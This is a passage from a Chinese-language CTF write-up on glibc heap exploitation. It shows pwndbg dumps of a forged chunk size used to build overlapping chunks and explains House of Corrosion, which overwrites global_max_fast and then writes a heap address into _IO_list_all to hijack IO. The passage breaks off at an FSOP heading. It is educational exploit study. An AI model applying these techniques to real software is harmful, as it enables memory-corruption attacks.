 ```sh
0x55bf8bcdd060:	0x000055bf8d2d2600	0x0000000000000000
```

因此，我们要借助这个初步的overlapping得到更大范围的overlapping。由于我们可以控制到正常情况下，下一个`chunk`的`fd`和`bk`，那我们自然也可以控制其`prev_size`和`size`来再次实现overlapping，并且这次构造的`prev_size`和`size`的值可以由我们自行控制，我们甚至可以构造一个完整包含下一（几）个`chunk`的`size`，不过注意要在对应地方伪造`next_chunk->prev_size`。

```sh
pwndbg> x/30gx 0x563da84b90a0
0x563da84b90a0:	0xadbeef00000000a0	0x00000000000000b1 <- id==1
0x563da84b90b0:	0x4141414141414141	0x4141414141414141
0x563da84b90c0:	0x4141414141414141	0x4141414141414141
0x563da84b90d0:	0x4141414141414141	0x4141414141414141
0x563da84b90e0:	0x4141414141414141	0x4141414141414141
0x563da84b90f0:	0x4141414141414141	0x4141414141414141
0x563da84b9100:	0x4141414141414141	0x4141414141414141
0x563da84b9110:	0x4141414141414141	0x4141414141414141
0x563da84b9120:	0x4141414141414141	0x4141414141414141
0x563da84b9130:	0x4141414141414141	0x4141414141414141
0x563da84b9140:	0x0000000000000000	0x00000000000014b1 <- 伪造 id==2的chunk的size，原本为0xa0
0x563da84b9150:	0x6363636363636363	0x0000000000000029 <- 切割后chunk的位置
0x563da84b9160:	0x00007f50b666db78	0x00007f50b666db78
0x563da84b9170:	0x6363636363636363	0x0000000000000028
0x563da84b9180:	0x0000000000000061	0x6363636363636363
0x563da84b9190:	0x6363636363636363	0x6363636363636363
0x563da84b91a0:	0x6363636363636363	0x6363636363636363
0x563da84b91b0:	0x6363636363636363	0x6363636363636363
0x563da84b91c0:	0x6363636363636363	0x6363636363636363
0x563da84b91d0:	0x6363636363636363	0x6363636363636363
0x563da84b91e0:	0x00000000000000a0	0x0000000000001411  <- id==1
0x563da84b91f0:	0x6464646464646464	0x6464646464646464
0x563da84b9200:	0x6464646464646464	0x6464646464646464
pwndbg> x/10gx 0x563da7d62040
0x563da7d62040:	0x0000563da84b9010	0x0000563da84b90b0 <- heap_list
0x563da7d62050:	0x0000563da84b9150	0x0000563da84b91f0
0x563da7d62060:	0x0000563da84ba600	0x0000000000000000
```

这里我选择的是构造完整包含下一个`chunk`的`size`，至此我们构造的overlapping已经足够了。

## House of Corrision

`House of Corrosion`是一个很早的利用，**通过改写全局变量`global_max_fast`来扩大fast bin chunk的大小范围，以此来实现对fastbinsY的数组越界利用**，可以做到越界申请内存或写入一个堆地址。

偏移和要处理的`chunk size`可以用此式子计算：`chunk size = (address-fastbinsY)* 2 + 0x20`（这个size包括了`header`），其中`chunk size`是处理的`chunk`的`size`，`address`是会写入或`malloc`的地址，`fastbinsY`为`fastbinsY`的地址。

此处利用任意地址写`0xdead`来修改`global_max_fast`的大小，之后利用`free`将一个堆地址写到`_IO_list_all`来劫持`IO`流。被写的这个堆地址指向的`chunk`就是之前overlapping构造好的`chunk`，因此`size`需要提前计算好并设置。

## FSOP
